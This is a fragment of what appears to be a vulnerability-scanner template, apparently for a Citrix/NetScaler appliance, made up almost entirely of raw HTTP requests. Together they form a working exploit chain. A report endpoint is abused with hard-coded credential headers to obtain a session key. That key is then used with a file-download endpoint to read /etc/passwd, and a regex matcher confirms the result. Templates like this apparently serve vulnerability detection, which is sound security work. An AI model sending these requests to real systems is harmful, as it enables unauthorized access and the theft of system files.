 ```

      - |
        GET /menu/stc HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close

      - |
        POST /pcidss/report?type=allprofiles&sid=loginchallengeresponse1requestbody&username=nsroot&set=1 HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <appfwprofile><login></login></appfwprofile>

      - |
        POST /rapi/filedownload?filter=path:%2Fetc%2Fpasswd HTTP/1.1
        Host: {{Hostname}}
        User-Agent: python-requests/2.24.0
        Accept: */*
        Connection: close
        Content-Type: application/xml
        X-NITRO-USER: oY39DXzQ
        X-NITRO-PASS: ZuU9Y9c1
        rand_key: §randkey§

        <clipermission></clipermission>

    cookie-reuse: true # Using cookie-reuse to maintain session between each request, same as browser.

    extractors:
      - type: regex
        name: randkey # Variable name
        part: body
        internal: true
        regex:
          - "(?m)[0-9]{3,10}\\.[0-9]+"

    matchers:
      - type: regex
        regex:
          - "root:[x*]:0:0:"
        part: body

```
